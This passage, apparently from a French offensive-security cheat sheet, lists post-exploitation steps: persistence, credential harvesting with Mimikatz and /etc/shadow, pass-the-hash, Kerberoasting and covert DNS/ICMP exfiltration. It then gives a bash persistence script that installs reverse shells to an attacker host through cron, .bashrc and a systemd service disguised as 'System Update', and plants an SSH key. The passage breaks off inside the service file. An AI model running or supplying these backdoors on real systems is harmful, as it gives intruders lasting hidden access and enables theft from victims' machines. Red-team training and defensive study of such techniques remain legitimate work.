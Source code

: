 ## 📋 Checklist Post-Exploitation

### ✅ Immédiatement après compromise :
1. **Stabiliser le shell** - TTY upgrade, session stable
2. **Reconnaissance rapide** - OS, user, network position
3. **Backup access** - Créer une persistence immédiate
4. **Migration** - Process stable (Meterpreter)
5. **Documentation** - Screenshots, commandes exécutées

### ✅ Persistence et Escalation :
1. **Multiple backdoors** - Cron, service, registry, SSH keys
2. **Privilege escalation** - LinPEAS, WinPEAS, manual enum
3. **Credential harvesting** - Mimikatz, /etc/shadow, browser
4. **Token impersonation** - Si privilèges suffisants
5. **Golden/Silver tickets** - Si environnement AD

### ✅ Lateral Movement :
1. **Network enumeration** - Scan interne, services
2. **Credential reuse** - Pass-the-hash, SSH keys
3. **Jump servers** - Identifier les pivots
4. **Service accounts** - Kerberoasting, AS-REP roasting
5. **Trust relationships** - Domain/forest trusts

### ✅ Data Exfiltration :
1. **Data classification** - Identifier les données sensibles
2. **Staging area** - Comprimer et préparer
3. **Covert channels** - DNS, ICMP, HTTPS
4. **Size limitations** - Fragmenter si nécessaire
5. **Integrity checks** - Hash des données exfiltrées

## 🎓 Scripts d'Automatisation

### Script de Persistence Linux
```bash
#!/bin/bash
# Linux Persistence Script

# Cron job persistence
echo "*/10 * * * * /bin/bash -c 'bash -i >& /dev/tcp/attacker_ip/4443 0>&1'" | crontab -

# SSH key persistence
mkdir -p ~/.ssh
echo "ssh-rsa AAAAB3NzaC1yc2E... your_public_key" >> ~/.ssh/authorized_keys
chmod 600 ~/.ssh/authorized_keys

# Bashrc persistence
echo "nohup bash -i >& /dev/tcp/attacker_ip/4442 0>&1 &" >> ~/.bashrc

# Service persistence (if root)
if [ "$EUID" -eq 0 ]; then
    cat > /etc/systemd/system/update.service << EOF
[Unit]
Description=System Update
After=network.target

[Service]
Type=simple
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/attacker_ip/4441 0>&1'
Restart=always

[Install]
```